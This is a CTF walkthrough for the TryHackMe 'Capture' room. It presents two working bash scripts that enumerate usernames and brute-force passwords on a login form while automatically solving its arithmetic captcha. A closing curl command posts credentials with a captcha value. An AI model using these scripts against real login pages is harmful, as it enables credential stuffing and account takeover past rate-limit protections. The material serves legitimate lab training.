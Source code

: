 # TryHackMe Capture Full Walkthrough

## Topics

- **authentication bypass**  
- **captcha bypass**
- **Scripting**

## Login page enumeration

Navigating to the site we are presented with a login page: 

![image](https://github.com/user-attachments/assets/f334ea32-66cf-4e46-80f3-d2dfba265526)

Lets put in some values in the input fields and see what sort of error message we get:

![image](https://github.com/user-attachments/assets/e0ddb161-76d2-4aa3-a975-98d618755a9a)

We can see here that the username field is vulnerable to username enumeration. This means that if we input the correct username it should give us a different error message. But we cannot just brute force the field with usernames.txt as the challenge states there is rate limiting involved.

This can be tested and seen if we enter the random values into the username and password fields several time. We will eventually end up with a captcha that looks something like this: 

![image](https://github.com/user-attachments/assets/8bed5783-47b4-4fc8-bacd-090977a8a6c9)

Once we solve the captcha then we get the same error message we got before:

![image](https://github.com/user-attachments/assets/f9f38a43-b2dc-412d-a822-584efb7e4940)

However, the mathematical problem is now different. So essentially for each username we brute force from our usernames.txt we will face a different mathematical problem each time that we need solve each time. So how can we speed things up?

## Scripting

We will need to write a script that can essentially brute force the username field with usernames.txt and solve the captcha fields for every single request we make. Lets call upon our friend ChatGPT to do this for us.

userenum script:

```bash
#!/bin/bash

# Loop through each username in the usernames.txt file
while IFS= read -r username
do
  # Fetch the HTML response for the username
  response=$(curl -s -X POST -d "username=$username&password=x" http://10.10.37.22/login)

  # Extract the CAPTCHA math question from the HTML
  captcha_question=$(echo "$response" | grep -oP '\d+ [\+\-\*/] \d+')

  # Extract the first number, operator, and second number from the CAPTCHA question
  num1=$(echo "$captcha_question" | awk '{print $1}')
  operator=$(echo "$captcha_question" | awk '{print $2}')
  num2=$(echo "$captcha_question" | awk '{print $3}')

  # Solve the CAPTCHA
  if [ "$operator" == "+" ]; then
    captcha_answer=$((num1 + num2))
  elif [ "$operator" == "-" ]; then
    captcha_answer=$((num1 - num2))
  elif [ "$operator" == "*" ]; then
    captcha_answer=$((num1 * num2))
  elif [ "$operator" == "/" ]; then
    captcha_answer=$((num1 / num2))
  fi

  # Send the POST request with the solved CAPTCHA
  response=$(curl -s -X POST -d "username=$username&password=admin&captcha=$captcha_answer" http://10.10.37.22/login)

  # Check if the user exists or not
  if echo "$response" | grep -q "The user &#39;$username&#39; does not exist"; then
    echo "User $username does not exist"
  else
    echo "Found valid user: $username"
    break
  fi
done < usernames.txt
```
Running this script we can find our valid username:

![image](https://github.com/user-attachments/assets/e770a6c4-5583-476d-972d-b47696b2dc11)

Now we just need to do the exact same thing but for the password field.

![image](https://github.com/user-attachments/assets/d87b23a0-d264-4de7-9bfe-fc117682d3a6)

We can see from the error message we have the correct username. We can re-use our script but just tweak it a bit to make it work for password. Doing this we get the following:

Password script

```bash
#!/bin/bash

# Loop through each password in the passwords.txt file
while IFS= read -r password
do
  # Fetch the HTML response for the password
  response=$(curl -s -X POST -d "username=natalie&password=$password" http://10.10.37.22/login)

  # Extract the CAPTCHA math question from the HTML
  captcha_question=$(echo "$response" | grep -oP '\d+ [\+\-\*/] \d+')

  # Extract the first number, operator, and second number from the CAPTCHA question
  num1=$(echo "$captcha_question" | awk '{print $1}')
  operator=$(echo "$captcha_question" | awk '{print $2}')
  num2=$(echo "$captcha_question" | awk '{print $3}')

  # Solve the CAPTCHA
  if [ "$operator" == "+" ]; then
    captcha_answer=$((num1 + num2))
  elif [ "$operator" == "-" ]; then
    captcha_answer=$((num1 - num2))
  elif [ "$operator" == "*" ]; then
    captcha_answer=$((num1 * num2))
  elif [ "$operator" == "/" ]; then
    captcha_answer=$((num1 / num2))
  fi

  # Send the POST request with the solved CAPTCHA
  response=$(curl -s -X POST -d "username=natalie&password=$password&captcha=$captcha_answer" http://10.10.37.22/login)

  # Check if the password exists or not
  if echo "$response" | grep -q "Invalid password for user &#39;natalie&#39;"; then
    echo "password $password does not exist"
  else
    echo "Found valid password: $password"
    break
  fi
done < passwords.txt
```


Running this we get the password:

![image](https://github.com/user-attachments/assets/7bf27dc4-1222-4d49-9ee8-3ed4f4d58879)

Now we can login and obtain our flag:


![image](https://github.com/user-attachments/assets/d27caa47-a299-45c0-ab43-a29083412be2)

Note you may need to run the following command a few times if it does not work.

```sh
curl -X POST -d 'username=admin&password=admin&captcha=405' http://10.10.131.181/login
```

















